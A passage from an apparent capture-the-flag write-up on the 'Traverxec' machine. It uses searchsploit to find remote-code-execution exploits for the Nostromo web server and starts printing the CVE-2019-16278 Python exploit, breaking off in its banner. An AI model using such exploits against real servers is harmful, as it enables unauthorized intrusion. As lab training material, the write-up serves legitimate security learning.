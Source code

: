 > Note: -I = Fetch the headers only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document

## Shell as www-data

### Vulnerability Research

I'll use searchsploit to find exploits while using the name of the HTTP service which is nostromo, searchsploit shows three potential Nostromo vulnerabilities:

```shell
❯ searchsploit nostromo
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                         |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                                                   | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                                                 | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                                                   | linux/remote/35466.sh
------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
❯ searchsploit -m multiple/remote/47837.py
  Exploit: nostromo 1.9.6 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47837
     Path: /usr/share/exploitdb/exploits/multiple/remote/47837.py
File Type: Python script, ASCII text executable

Copied to: /home/wixnic/htb/traverxec/47837.py
```

There’s a metasploit one, then a python script, and a shell script. The shell script is an exploit for an older version so we'll ignore that one. Let's start with the python exploit first.

Python Code:
```python
# Exploit Title: nostromo 1.9.6 - Remote Code Execution
# Date: 2019-12-31
# Exploit Author: Kr0ff
# Vendor Homepage:
# Software Link: http://www.nazgul.ch/dev/nostromo-1.9.6.tar.gz
# Version: 1.9.6
# Tested on: Debian
# CVE : CVE-2019-16278

# This line needs to commented or removed
#cve2019_16278.py

#!/usr/bin/env python

import sys
import socket

art = """

                                        _____-2019-16278
        _____  _______    ______   _____\    \
   _____\    \_\      |  |      | /    / |    |
  /     /|     ||     /  /     /|/    /  /___/|
```
